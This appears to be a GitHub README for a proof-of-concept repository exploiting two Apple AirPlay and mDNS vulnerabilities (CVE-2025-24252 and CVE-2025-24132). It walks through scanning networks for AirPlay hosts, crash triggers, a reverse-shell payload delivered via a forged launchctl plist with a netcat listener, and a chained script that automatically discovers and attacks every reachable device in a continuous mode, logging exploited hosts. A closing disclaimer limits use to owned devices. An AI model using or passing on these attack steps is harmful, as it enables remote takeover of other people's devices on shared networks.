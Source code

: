 # AIRBORNE – 2-PoCs-1-Repository

PoCs for **CVE-2025-24252** and **CVE-2025-24132**  

Discovered and detailed by Oligo Security

https://www.oligo.security/blog/airborne

Both bugs live in Apple’s parsing of network data—specifically in Bonjour/mDNS and AirPlay’s TCP pairing flow.

---

## CVE-2025-24252 – mDNS TXT Record Crash Trigger

This vulnerability affects `AirPlayReceiver` and is triggered via malformed mDNS TXT records.

### Setup on Kali Linux

```bash
sudo apt update
sudo apt install python3-scapy avahi-daemon -y
sudo systemctl start avahi-daemon
```

### Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### Configure the PoC

```bash
nano crashtest_CVE-2025-24252.py
```

Set your attacker IP and interface. Then save and exit (`CTRL+X`, then `Y`, then `ENTER`).

### Run the PoC

```bash
python3 crashtest_CVE-2025-24252.py
```

### Monitor Target Behavior

Use `tcpdump` or Wireshark to capture traffic on the Apple device’s IP.

> Only test this on your own Apple devices in a safe lab setting.

---

## CVE-2025-24132 – AirPlay Pairing Heap Overflow

This bug is in the `AirPlayScreen` component and can trigger a heap overflow by sending malformed pairing/init packets over TCP port 7000.

---

### Scan for Vulnerable AirPlay Hosts

```bash
nmap -p 7000 --open --script=banner <your-local-subnet>/24
```

---

### Crash PoC: TCP Malformed Packet

A low-level socket-based fuzzing PoC that can be expanded into an RCE trigger.

Edit the script

```bash
nano PoC_CVE-2025-24132.py
```

Set your target IP. Then run

```bash
python3 PoC_CVE-2025-24132.py
```

Watch for
- System reboots
- Pairing process freezes
- AirPlay UI or app crashes

If observed, a heap overflow condition is likely confirmed.

---

## From Crash to Code Execution – CVE-2025-24132 RCE Simulation

### Overview

Trigger CVE-2025-24132 to simulate executing a reverse shell or `launchctl` job on a vulnerable or jailbroken Apple device.

Steps
- Overflow heap cleanly
- Inject shell command or plist-based job
- Trigger reverse shell or persistent execution

### What We Know

- AirPlay runs on TCP port `7000`
- `pairing-init` POST requests are vulnerable when oversized
- The protocol may accept binary plist payloads or plain XML

---

### Run the RCE Simulation Script

```bash
nano CVE-2025-24132_RCE.py
```

Set your
- `target_ip` (your Apple device)
- `attacker_ip` (your Kali machine)

Start your listener

```bash
nc -lvnp 4444
```

Then launch the PoC

```bash
python3 CVE-2025-24132_RCE.py
```

This sends a forged `launchctl` payload with a reverse shell string. Works only if the device is jailbroken or unpatched.

---
---

## **Combined Exploit Chain – Discovery to Exploitation**

`chain_exploit.py` links both CVEs into one seamless attack path:  
- Scans for AirPlay targets using mDNS (CVE-2025-24252 scan logic)
- Automatically launches the TCP pairing RCE payload (CVE-2025-24132)

This simulates how a real-world attacker could automate device discovery and exploit delivery in a local Wi-Fi environment.

### Features

- Automatic mDNS discovery of vulnerable Apple AirPlay devices
- Launches forged `pairing-init` payloads to port 7000
- Embedded reverse shell string inside a `launchctl` XML plist
- Live scanning mode (`--live`) for continuous background operation
- All successful targets are logged to `exploited_hosts.log`
- ASCII banner because we don’t miss 😤

### Run the Chain Exploit

```bash
nano chain_exploit.py
```

Set your
- `iface` — your active wireless interface (e.g. wlan0)
- `attacker_ip` — your Kali machine IP
- `attacker_port` — listener port (default: 4444)

Start your listener

```bash
nc -lvnp 4444
```

Then run

```bash
sudo python3 chain_exploit.py
```

Or to run continuously and re-scan every 10 seconds:

```bash
sudo python3 chain_exploit.py --live
```

### Output

- All discovered targets are printed
- Successful payloads are sent to each IP found
- All exploited IPs are saved to `exploited_hosts.log` with timestamps

> Note: Real reverse shell execution only occurs on jailbroken or unpatched Apple devices.

---

## DISCLAIMER

This project is for **educational and research purposes only**.

USER ASSUMES FULL RESPONSIBILITY WHEN UTILIZING THIS TOOL.  
**Only test on networks and devices you own or have explicit permission to test on.**

Unauthorized use may violate laws or terms of service.  
Use responsibly and ethically.

